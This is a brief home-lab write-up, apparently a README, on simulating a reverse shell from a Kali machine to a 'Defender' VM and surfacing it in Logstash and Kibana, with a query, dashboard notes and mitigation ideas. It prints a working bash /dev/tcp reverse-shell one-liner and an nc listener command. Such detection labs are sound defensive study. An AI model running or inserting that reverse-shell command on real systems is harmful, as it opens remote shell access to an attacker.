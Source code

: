 # Reverse Shell Detection (Kali → Defender)

## 🧨 Attack Summary
Simulated a reverse shell from Kali to Defender VM using Bash TCP syntax:
bash -c 'bash -i >& /dev/tcp/<defender ip>/4444 0>&1'
- Target: Defender VM on port 4444
- Attacker: Kali 
- Listener started with `nc -lvnp 4444` on Defender
- Reverse connection confirmed—shell established

## 📥 Log Ingestion
Manually injected detection log into Logstash via TCP:
echo "[REVSHELL]: Kali connected to Defender on port 4444" | nc <defender ip> 5000

Pipeline tagged these events with `recon`, `rev_shell`, and `Kali` metadata.

## 🔍 Kibana Query
Detect reverse shell events with:
message: "[REVSHELL]*"

## 📊 Dashboard Integration
- Added bar graph for `[REVSHELL]` events over time
- Created tag-based breakdown of recon vs shell payloads

## 🛡️ Mitigation Ideas
- Alert on use of port 4444 or other uncommon shell ports
- Monitor for bash session spawns from external IPs
- Implement firewall rules to restrict reverse shell behavior
- Add tagging logic in pipeline to auto-flag shell activity

